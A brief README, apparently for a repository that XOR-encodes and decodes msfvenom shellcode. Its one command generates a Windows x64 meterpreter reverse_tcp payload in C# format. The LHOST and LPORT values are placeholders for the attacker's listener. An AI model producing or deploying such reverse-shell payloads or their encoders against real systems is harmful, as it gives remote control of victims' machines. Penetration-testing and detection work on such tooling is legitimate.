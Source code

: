# Cipher_Encode-Decode
can encode / decode XorCipher from msf venom reverse_tcp <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp

